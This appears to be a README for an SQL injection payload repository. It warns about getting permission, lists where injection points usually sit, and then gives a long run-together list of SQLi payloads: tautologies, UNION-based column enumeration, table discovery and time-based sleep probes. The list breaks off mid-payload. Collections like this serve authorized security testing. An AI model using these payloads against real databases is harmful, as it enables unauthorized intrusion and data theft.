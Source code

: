# SQL Injection Testing Guide
**⚠️ Important Note:** Always ensure you have explicit permission to test the target systems. Unauthorized testing can be illegal and unethical. Use these techniques only in controlled environments or on platforms where you have authorization.

## Overview

SQL Injection (SQLi) is a vulnerability that allows attackers to interfere with the queries an application makes to its database. This repository contains a collection of SQL injection payloads to help you test for these vulnerabilities.


### 2. **Testing for SQL Injection**

Follow these steps to test your platform for SQL injection vulnerabilities:

#### **A. Identify Injection Points**

Usually, it's tested in search boxes, user inputs and urls. So look for the following:

1. **URL Parameters**: Look for parameters in the URL, such as `http://example.com/page?id=1`.
2. **Form Inputs**: Test fields in forms, like search bars or login forms.
3. **HTTP Headers**: Check custom headers or cookies that might be used in SQL queries.
4. **API Endpoints**: Test any API endpoints that interact with a database.

#### **B. Apply SQL Injection Payloads**

1. **Injection Tests**

   Start with simple payloads to see if input fields are vulnerable:
   ```sql
   ' OR '1'='1
sql

1. **Injection Rampage**
  Or just use the big guns. Note go and remove peaces of code as you're testing, usually I go test peaces of this code to check if something changes:
  ```sql
' '' ` `` , " "" / // \ \\ ; ' or " -- or #  ' OR '1 ' OR 1 -- - " OR "" = " " OR 1 = 1 -- - ' OR '' = ' '=' 'LIKE' '=0--+  OR 1=1 ' OR 'x'='x ' AND id IS NULL; -- '''''''''''''UNION SELECT '2 %00 /*…*/  +		addition, concatenate (or space in url) ||		(double pipe) concatenate %		wildcard attribute indicator  @variable	local variable @@variable	global variable   # Numeric AND 1 AND 0 AND true AND false 1-false 1-true 1*56 -2   1' ORDER BY 1--+ 1' ORDER BY 2--+ 1' ORDER BY 3--+  1' ORDER BY 1,2--+ 1' ORDER BY 1,2,3--+  1' GROUP BY 1,2,--+ 1' GROUP BY 1,2,3--+ ' GROUP BY columnnames having 1=1 --   -1' UNION SELECT 1,2,3--+ ' UNION SELECT sum(columnname ) from tablename --   -1 UNION SELECT 1 INTO @,@ -1 UNION SELECT 1 INTO @,@,@  1 AND (SELECT * FROM Users) = 1	  ' AND MID(VERSION(),1,1) = '5';  ' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --   Finding the table name   Time-Based: ,(select * from (select(sleep(10)))a) %2c(select%20*%20from%20(select(sleep(10)))a) ';WAITFOR DELA
```
